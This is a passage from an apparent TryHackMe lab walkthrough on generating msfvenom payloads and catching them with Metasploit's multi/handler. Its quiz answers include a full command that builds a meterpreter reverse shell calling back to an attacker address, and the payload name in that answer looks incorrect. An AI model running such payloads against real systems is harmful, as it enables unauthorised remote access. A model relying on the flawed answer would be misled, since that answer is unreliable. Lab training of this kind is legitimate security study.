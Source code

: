 This gives us a full set of Linux meterpreter payloads for 32bit targets.

### Answer the questions below

* Generate a staged reverse shell for a 64 bit Windows target, in a `.exe` format using your TryHackMe tun0 IP address and a chosen port.


* Which symbol is used to show that a shell is stageless?

	`_`

* What command would you use to generate a staged meterpreter reverse shell for a 64bit Linux target, assuming your own IP was 10.10.10.5, and you were listening on port 443? The format for the shell is `elf` and the output filename should be `shell`

	`msfvenom -p linux/x64/meterpreter/reverse_shell -f elf -o shell LHOST=10.10.10.5 LPORT=443`

## Task 10 - Metasploit multi/handler

Multi/Handler is a superb tool for catching reverse shells. It's essential if you want to use Meterpreter shells, and is the go-to when using staged payloads.

Fortunately, it's relatively easy to use:

1. Open Metasploit with `msfconsole`
2. Type `use multi/handler`, and press enter

We are now primed to start a multi/handler session. Let's take a look at the available options using the `options` command:

![task10-options](./images/task10-options.png)

There are three options we need to set: payload, LHOST and LPORT. These are all identical to the options we set when generating  shellcode with Msfvenom -- a payload specific to our target, as well as a listening address and port with which we can receive a shell. Note that the LHOST must be specified here, as metasploit will not listen on all network interfaces like netcat or socat will; it must be told a specific address to listen with (when using TryHackMe, this will be your [tun0 address](http://10.10.10.10/)). We set these options with the following commands:
